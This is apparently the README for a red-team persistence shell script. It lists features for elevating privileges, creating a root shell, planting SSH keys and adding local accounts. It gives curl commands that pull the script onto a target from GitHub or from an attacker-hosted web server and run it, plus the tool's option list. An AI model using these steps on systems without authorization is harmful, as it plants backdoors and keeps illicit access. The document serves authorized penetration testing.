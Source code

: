 # Persistence Phase

In this phase, an attempt is made to maintain persistence on the host or network. This is to maintain access to the compromised system, even if the system is rebooted or credentials are changed, for example. This includes creating new accounts or securing access via SSH, among other things.

With this script it is possible to apply some persistence techniques to get a foothold on a system.

## Features

- Elevate privileges
- Create a root shell
- Modify ssh keys
- Create local user

## Usage

From github:
```sh
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/persistence/persistence.sh
sh persistence.sh -h
```
Local network:
```sh
# Host:
sh persistence.sh -w
# Target:
curl -LJO <Host>:8000/persistence.sh
sh persistence.sh -h
```

### Parameters

```sh
sh persistence.sh -h

Usage: persistence.sh [options]

Options:
-h                Show this help message
-e <username>     Elevate privileges of the given user
                  Root needed!
-r                Create a root shell
                  Root needed!
-s <ssh pub key>  Trying to add ssh public key to authorized_keys of current user
                  Put the contents of your public key in quotes like: -s "ssh-rsa AAAAB3NcaDkL......"
-u <username>     Add a local account/user
                  Only useful in combination with -p parameter
                  Root needed!
-p <password>     Set this password to new or existent user
                  Root needed!
-w                Serves a local web server for transferring files

Output:
-q                Quiet. No banner and no advisory displayed
```

## Results

The results are printed directly to STDOUT.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems. 